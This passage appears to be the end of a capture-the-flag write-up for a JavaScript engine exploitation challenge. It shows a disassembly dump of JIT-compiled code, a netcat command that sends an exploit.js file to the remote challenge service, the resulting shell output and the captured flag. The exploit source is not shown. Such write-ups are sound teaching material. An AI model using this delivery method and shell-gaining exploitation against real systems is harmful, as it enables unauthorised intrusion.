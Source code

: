 ```shell
0x00007fd8b1da9be7  48 b8 a0 dc 59 b2 d8  mov    rax, 0x00007fd8b259dca0
0x00007fd8b1da9bee  7f 00 00
0x00007fd8b1da9bf1  ff d0                 call   eax
0x00007fd8b1da9bf3  48 83 c4 08           add    rsp,0x08
0x00007fd8b1da9bf7  5f                    pop    rdi
0x00007fd8b1da9bf8  49 89 c4              mov    r12,rax
8:80 NewArray:
0x00007fd8b1da9bfb  31 f6                 xor    esi,esi
0x00007fd8b1da9bfd  31 d2                 xor    edx,edx
0x00007fd8b1da9bff  57                    push   rdi
0x00007fd8b1da9c00  6a 00                 push   0x00
0x00007fd8b1da9c02  48 b8 a0 dc 59 b2 d8  mov    rax, 0x00007fd8b259dca0
0x00007fd8b1da9c09  7f 00 00
0x00007fd8b1da9c0c  ff d0                 call   eax
0x00007fd8b1da9c0e  48 83 c4 08           add    rsp,0x08
0x00007fd8b1da9c12  5f                    pop    rdi
0x00007fd8b1da9c13  49 89 c4              mov    r12,rax
8:a0 Jump @9:
0x00007fd8b1da9c16  eb 03                 jmp    short b1da9c1b <Block 9>
0x00007fd8b1da9c18  0f 1f 00              nop    [rax]

Block 9:
9:0 Jump @5:
0x00007fd8b1da9c1b  e9 75 fa ff ff        jmp    b1da9695 <Block 5>
common_exit:
0x00007fd8b1da9c20  4c 89 23              mov    [rbx],r12
0x00007fd8b1da9c23  41 5f                 pop    r15
0x00007fd8b1da9c25  41 5e                 pop    r14
0x00007fd8b1da9c27  41 5d                 pop    r13
0x00007fd8b1da9c29  41 5c                 pop    r12
0x00007fd8b1da9c2b  5b                    pop    rbx
0x00007fd8b1da9c2c  5b                    pop    rbx
0x00007fd8b1da9c2d  c9                    leave
0x00007fd8b1da9c2e  c3                    ret

$ # we got a shell!
```

Also a successful remote run:

```shell
$ (cat exploit.js ; echo EOF ; cat) | nc <ip> <port>
id
uid=1000 gid=1000 groups=1000
```

and finally flag `dice{hop_skip_shortjmp}`!